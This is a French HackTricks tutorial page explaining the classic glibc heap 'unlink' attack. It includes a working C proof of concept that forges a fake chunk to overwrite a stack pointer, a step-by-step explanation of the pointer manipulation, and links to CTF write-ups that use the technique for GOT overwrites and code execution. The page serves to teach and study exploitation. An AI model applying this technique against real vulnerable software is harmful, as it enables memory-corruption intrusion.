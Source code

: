 # Attaque Unlink

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

## Informations de base

Lorsque cette attaque a été découverte, elle permettait principalement un WWW (Write What Where), cependant, certains **contrôles ont été ajoutés** rendant la nouvelle version de l'attaque plus intéressante mais aussi plus complexe et **inutile**.

### Exemple de code :

<details>

<summary>Code</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* L'attaque ne fonctionne pas si les tcaches sont utilisés (après 2.26)

### Objectif

Cette attaque permet de **changer un pointeur vers un chunk pour le faire pointer 3 adresses avant lui-même**. Si ce nouvel emplacement (alentours de l'endroit où se trouvait le pointeur) contient des informations intéressantes, comme d'autres allocations contrôlables / la pile..., il est possible de les lire/écraser pour causer un plus grand préjudice.

* Si ce pointeur était situé dans la pile, car il pointe maintenant 3 adresses avant lui-même et que l'utilisateur peut potentiellement le lire et le modifier, il sera possible de divulguer des informations sensibles de la pile ou même de modifier l'adresse de retour (peut-être) sans toucher au canary
* Dans les exemples de CTF, ce pointeur est situé dans un tableau de pointeurs vers d'autres allocations, ce qui permet de le faire pointer 3 adresses avant et de pouvoir le lire et l'écrire, il est possible de faire pointer les autres pointeurs vers d'autres adresses.\
Comme potentiellement l'utilisateur peut également lire/écrire les autres allocations, il peut divulguer des informations ou écraser de nouvelles adresses à des emplacements arbitraires (comme dans la GOT).

### Prérequis

* Un certain contrôle dans une mémoire (par exemple, la pile) pour créer quelques chunks en donnant des valeurs à certaines des attributs.
* Fuite de pile pour définir les pointeurs du faux chunk.

### Attaque

* Il y a quelques chunks (chunk1 et chunk2)
* L'attaquant contrôle le contenu de chunk1 et les en-têtes de chunk2.
* Dans chunk1, l'attaquant crée la structure d'un faux chunk :
* Pour contourner les protections, il s'assure que le champ `size` est correct pour éviter l'erreur : `corrupted size vs. prev_size while consolidating`
* et les champs `fd` et `bk` du faux chunk pointent là où le pointeur de chunk1 est stocké avec des décalages de -3 et -2 respectivement, de sorte que `fake_chunk->fd->bk` et `fake_chunk->bk->fd` pointent vers la position en mémoire (pile) où se trouve l'adresse réelle de chunk1 :

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Les en-têtes du chunk2 sont modifiés pour indiquer que le chunk précédent n'est pas utilisé et que la taille est la taille du faux chunk contenu.
* Lorsque le deuxième chunk est libéré, alors ce faux chunk est désenchaîné se produisant :
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Auparavant, il a été fait en sorte que `fake_chunk->fd->bk` et `fake_chunk->bk->fd` pointent vers le même endroit (l'emplacement dans la pile où `chunk1` était stocké, donc c'était une liste chaînée valide). Comme **les deux pointent vers le même emplacement**, seul le dernier (`fake_chunk->bk->fd = fake_chunk->fd`) aura **effet**.
* Cela va **écraser le pointeur vers chunk1 dans la pile à l'adresse (ou octets) stockée 3 adresses avant dans la pile**.
* Par conséquent, si un attaquant pouvait contrôler à nouveau le contenu du chunk1, il pourra **écrire dans la pile** en mesure de potentiellement écraser l'adresse de retour en sautant le canary et de modifier les valeurs et les points des variables locales. Même en modifiant à nouveau l'adresse de chunk1 stockée dans la pile vers un emplacement différent où si l'attaquant pouvait contrôler à nouveau le contenu de chunk1, il pourra écrire n'importe où.
* Notez que cela était possible car les **adresses sont stockées dans la pile**. Le risque et l'exploitation peuvent dépendre de **l'endroit où les adresses du faux chunk sont stockées**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Références

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Bien qu'il soit étrange de trouver une attaque de désenchaînement même dans un CTF, voici quelques writeups où cette attaque a été utilisée :
* Exemple de CTF : [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* Dans cet exemple, au lieu de la pile, il y a un tableau d'adresses malloc'ées. L'attaque de désenchaînement est effectuée pour pouvoir allouer un chunk ici, permettant ainsi de contrôler les pointeurs du tableau d'adresses malloc'ées. Ensuite, il y a une autre fonctionnalité qui permet de modifier le contenu des chunks dans ces adresses, ce qui permet de pointer des adresses vers la GOT, de modifier les adresses de fonction pour obtenir des fuites de libc et RCE.
* Autre exemple de CTF : [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Tout comme dans l'exemple précédent, il y a un tableau d'adresses d'allocations. Il est possible d'effectuer une attaque de désenchaînement pour faire pointer l'adresse de la première allocation quelques positions avant le début du tableau et d'écraser ensuite cette allocation à la nouvelle position. Par conséquent, il est possible d'écraser les pointeurs d'autres allocations pour pointer vers la GOT de atoi, l'imprimer pour obtenir une fuite de libc, puis écraser la GOT de atoi avec l'adresse d'un gadget unique.
* Exemple de CTF avec des fonctions malloc et free personnalisées qui exploitent une vulnérabilité très similaire à l'attaque de désenchaînement : [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Il y a un débordement qui permet de contrôler les pointeurs FD et BK du malloc personnalisé qui sera (personnalisé) libéré. De plus, le tas a le bit exec, il est donc possible de divulguer une adresse de tas et de pointer une fonction de la GOT vers un chunk de tas avec un shellcode à exécuter.
